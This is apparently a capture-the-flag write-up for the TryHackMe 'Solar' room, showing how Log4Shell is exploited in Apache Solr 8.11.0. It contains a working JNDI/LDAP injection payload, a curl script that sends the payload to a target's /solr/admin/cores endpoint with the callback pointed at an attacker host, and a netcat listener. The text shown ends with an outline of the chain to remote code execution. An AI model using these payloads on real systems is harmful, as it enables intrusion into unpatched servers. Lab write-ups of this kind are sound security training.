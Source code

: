 # CTF - [THM Solar, exploiting log4j](https://tryhackme.com/room/solar)
Nmap scan:
```
PORT     STATE SERVICE
22/tcp   open  ssh
111/tcp  open  rpcbind
8983/tcp open  unknown
```

Port 8983 is interesting, navigating to the web server on this port, I found a web app running Apache Solr version 8.11.0. Apparently, this software is known to 
have the vulnerable log4j package.
<br/><br/>
![Screenshot from 2021-12-22 13-53-37](https://user-images.githubusercontent.com/59718043/147141427-ae530fa8-811d-4d3a-a664-ab908b62025e.png)

The dashboard shows indicators that the log4j package is used for the logging activity on this application.
```
-Dsolr.log.dir=/var/solr/logs
```
This machine is supplied with example log files for investigation. In one of the log files, `solr.log`, there are multiple entries of the same requests pointing to
one specific URL endpoint or path. This path is set to `/admin/cores`. Another interesting field is the `params={}`, which we can supply with user input.
```
2021-12-13 03:44:58.415 INFO  (qtp1083962448-20) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=80
2021-12-13 03:47:53.989 INFO  (qtp1083962448-21) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:54.819 INFO  (qtp1083962448-16) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:55.284 INFO  (qtp1083962448-19) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:55.682 INFO  (qtp1083962448-22) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:56.075 INFO  (qtp1083962448-20) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:56.459 INFO  (qtp1083962448-23) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:56.844 INFO  (qtp1083962448-14) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:57.253 INFO  (qtp1083962448-17) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:57.548 INFO  (qtp1083962448-18) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:57.758 INFO  (qtp1083962448-21) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:58.058 INFO  (qtp1083962448-16) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=1
2021-12-13 03:47:58.346 INFO  (qtp1083962448-19) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0

```
The URL endpoint needs to be prefaced with `solr/`. So the address where we can supply the `params={}` payload 
would look like this: `http://MACHINE_IP:8983/solr/admin/cores`.
<br/><br/>
The payload to abuse this log4j vulnerability looks like this: `${jndi:ldap://ATTACKERCONTROLLEDHOST}`.
This schema reaches out to an attacker controlled endpoint via the LDAP protocol and uses the Java Naming and Directory Interface (JNDI) functionality
to access external resources.
<br/><br/>
To test this theory, we're going to set up a netcat listener then make an HTTP request including the JNDI payload as part of the parameters.
```
nc -nvlp 4444
```
```bash
#!/bin/bash

read -p "LISTENER IP: " attacker
read -p "TARGET IP: " target
curl "http://${target}:8983/solr/admin/cores?foo=$\{jndi:ldap://${attacker}:4444\}"
```
Output:
```
$ bash curl.sh
LISTENER IP: 10.8.219.166
TARGET IP: 10.10.73.44
{
  "responseHeader":{
    "status":0,
    "QTime":3},
  "initFailures":{},
  "status":{}}
```
Netcat output:
```
$ nc -nvlp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.73.44 57114
0
 `
```
As expected, the output verifies that the target is in fact vulnerable. The netcat listener caught a connection. However, 
the payload we sent only made an LDAP request, so technically we haven't popped a shell yet.<br/>


The exploitation requires us to host an LDAP referral server, which will redirect the victim's request to an HTTP server hosting our secondary payload, ultimately allowing us to run arbitrary code on the target.<br/><br/>
The attack chain would be executed like this:<br/>
- 1. `${jndi:ldap://attackerserver:1389/Resource}` -> reaches out to our LDAP Referral Server 
- 2. The LDAP Referral Server then redirects the payload to our HTTP server
- 3. The victim retrieves and executes the code on our HTTP server, which then gives us unauthenticated remote access
